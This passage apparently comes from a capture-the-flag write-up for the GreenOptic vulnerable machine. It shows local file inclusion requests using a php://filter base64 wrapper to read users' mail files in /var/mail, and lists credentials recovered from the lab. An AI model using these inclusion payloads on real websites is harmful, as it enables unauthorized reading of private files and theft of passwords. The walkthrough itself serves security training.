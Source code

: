 ```text
/account/index.php?include=php://filter/convert.base64-encode/resource=/var/mail/terry
```

![48d1b144c76d8561895d57b7d69ee6fd.png](/images/vh-greenoptic1/66219779e0a849fa9b6ac8b4da748c54.png)

```text
/account/index.php?include=php://filter/convert.base64-encode/resource=/var/mail/sam
```

![45f11885a6d3525ef74660ca4b01f299.png](/images/vh-greenoptic1/9ce0df7a7a854e92bc3a93bdbb7a19d6.png)

We have one password with an unknown username, and a proper password combo - `?:HelloSunshine123` and `terry:wsllsa!2`. We are unable to login to Webmin or `/account` with the usernames we have and the passwords we found.  
